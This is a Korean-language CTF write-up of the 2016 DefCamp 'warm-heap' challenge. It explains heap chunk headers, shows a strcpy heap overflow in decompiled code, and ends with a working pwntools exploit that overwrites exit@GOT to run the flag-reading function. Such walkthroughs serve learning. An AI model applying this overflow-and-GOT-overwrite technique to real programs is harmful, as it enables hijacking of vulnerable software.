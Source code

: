 ```yaml
---
title: "2016 DefCamp CTF warm-heap"
date: 2019-12-23
tags: [DefCamp]
categories: [Defcamp]
---
```


Heap Chunk 공부하고자 간단한 Heap Overflow문제를 풀어봤다.

```c
v3 = malloc(16uLL);
```

![](https://user-images.githubusercontent.com/32904385/71335900-3ef14280-2588-11ea-91e8-90097356dda1.png)

16만큼 malloc 해주면 heap 영역에 이렇게 할당되는데 chunk 구조를 보면 64bit 바이너리니까 header에서  `prev_size`와 `size`는 각각 8바이트씩을 차지할거다. 빨간 부분은 `prev_size` , 노란부분은 `size`,  분홍부분은 `mem` 영역일 것이다. 

16만큼 동적할당 해줬으니 사이즈는 총 32일 것이다. 0x20이 아니라 0x21인 이유는 `prev_inuse`가 하위 1비트가 들어가기 때문이다. 현재 chunk가 사용중이므로 1로 설정되어있다. free되면 0이 된다.

```c
*v3 = 1;
```

![](https://user-images.githubusercontent.com/32904385/71335811-d73af780-2587-11ea-833d-e4f2e31fc256.png)

prev_size와 size를 제외하고 다음부터 우리가 할당해준 mem부분이다. 메모리에 1이라는 값을 저장해준다.

```c
*(v3 + 1) = malloc(8uLL);
```

![](https://user-images.githubusercontent.com/32904385/71336728-be344580-258b-11ea-8839-c8416c478361.png)

이 코드로 다음 chunk 주소가  malloc mem안에 들어가게 된다.

```c
v4 = malloc(16uLL);
*v4 = 2;
```

![](https://user-images.githubusercontent.com/32904385/71337150-a8c01b00-258d-11ea-8790-da59aff33a89.png)

이것도 그냥 16만큼 malloc해주고 값을 넣어줬다.

```c
*(v4 + 8) = malloc(8uLL);
```

![](https://user-images.githubusercontent.com/32904385/71337255-28e68080-258e-11ea-8300-a9dc345aa173.png)

이것도 다음 chunk 주소가 malloc mem에 들어가게 된다.

```c
fgets(&input, 4096, stdin);
strcpy(*(v3 + 1), &input);
fgets(&input, 4096, stdin);
strcpy(*(v4 + 8), &input);
exit(0);
```

`0x0000000001CCF090`이 input부분인데 strcpy로 *(v3+1) 에 복사해주고 있다. 여기서 40바이트를 넣고 이 뒤에 다음부터 Heap Oveflow내서 chunk 부분을 덮어쓸 수 있다.

```c
void __noreturn sub_400826()
{
  __int128 lineptr; // [rsp+0h] [rbp-20h]
  FILE *stream; // [rsp+10h] [rbp-10h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  lineptr = 0uLL;
  stream = fopen("flag", "r");
  getline(&lineptr, &lineptr + 1, stream);
  puts(lineptr);
  fflush(stdout);
  free(lineptr);
  _exit(1);
}
```

그래서 40바이트만큼 덮고 그 뒤에 함수의 exit@got주소를 넣고 flag를 읽어주는 함수로 바꿔주면 exit(0);가 됐을 때 flag를 읽어주는 함수가 실행된다.

> exploit.py

```python
from pwn import *

e = ELF('./exp100.bin')
p = process('./exp100.bin')

flag = 0x400826
payload = 'A'*40
payload += p64(e.got['exit'])
p.sendline(payload)
p.sendline(p32(flag))
p.interactive()
```



 